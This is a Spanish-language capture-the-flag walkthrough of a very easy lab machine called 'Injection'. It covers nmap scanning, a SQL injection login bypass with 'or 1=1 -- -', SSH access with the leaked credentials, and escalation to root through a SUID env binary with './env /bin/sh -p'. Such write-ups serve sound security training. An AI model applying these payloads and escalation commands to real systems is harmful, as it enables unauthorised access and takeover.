



# Maquina Injection

Dificultad : Muy Facil

## Fase de Escaneo

Vamos a realizar un escaneo con nmap a los puertos, servicios y versiones de la maquina victima.

```
nmap -sVC -sS -n -Pn -p- 172.17.0.2
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 22:07 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000010s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds
```
### Parametros de Escaneo

`-sS` - SYN Scan (Stealth Scan)
- Envian paquetes SYN sin completar el handshake TCP
- Escaneo mas rapido y discreto
- Requiere privilegios de administrador

`-sV` - Deteccion de versiones
- Detecta que servicios y versiones corren en los puertos abiertos
- Analiza las respuestas para identificar el software

`-sC` - Scripts por Defecto 
- Ejecuta los Scripts NSE (Nmap Scripting Engine) predeterminados
- Realiza pruebas de seguridad basicas y recoleccion de informacion

### Parametros de Configuracion

`-n` - Sin Resolucion DNS
- No realiza resolucion DNS inversa
- Escaneo mas rapido al sltarse las busquedas DNS

`-Pn` - No Ping
- Trata todos loshosts como activos
- Util cuando el objetivo bloquea request de ping

`-p-` - Todos los puertos
- Escanea los 65,535 puertos TCP
- Equivalentes a `-p 1-65535`

### Convinaciones Especiales

`-sVC`
- Convina de `-sV` (deteccion de versiones) y `-sC` (scripts)
- Muy completo para reconocimiento

## Indagacion Web
Revisamos el servicio corriendo en el puerto **80** a travez de un browser



Probamos con una inyeccion basica de SQL colocando `'or 1=1 -- -` en el nombre del usuario y cualquier password.



Logramos ingresar al sistema y nos brinda un password y un usuario que podremos usar para ingresar al otro servicio expuesto.



## Servicio SSH puerto 22
Ahora con la informacion que obtuvimos del sitio web vamos a probar acceder al servicio ssh con el usuario `dylan` y el password con el siguiente comando

```
ssh 172.17.0.2 -l dylan
```

Tambien puede ser de la siguiente forma que es mas comun

```
ssh dylan@172.17.0.2
```

Ahora nos va a pedir el password que obtuvimos anteriormente

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:5ic4ZXizeEb8agR4jNX59cBONCe5b5iEcU9lf2zt0Q0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@a83a137e0699:~$ 
```

Ahora podemos verificar que somos el usuario Dylan y vamos a averiguar a que grupo pertenemos y que permisos tenemos
```
cat /etc/group
```

```
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
audio:x:29:
dip:x:30:
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
mysql:x:101:
ssl-cert:x:102:
dylan:x:1000:
```

## Escalacion de Privilegios
Ahora que tenemos un panorama mas claro de los usuarios y grupos en el sistema vamos a buscar programas o binarios que tenan permisos SUID.
```
find / -perm -4000 -user root 2>/dev/null
```

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Ya con un poco de experiencia puedes distingir lo binarios comunes y los que son un poco raros como es el caso del binario `/usr/bin/env` porque tiene permisos elevados en el sistema siendo un binario de enviroment
```
cd /usr/bin && ./env /bin/sh -p
```

Y ya tendremos acceso al sistema como root 

```
# whoami
root
```

# Maquina Pwneada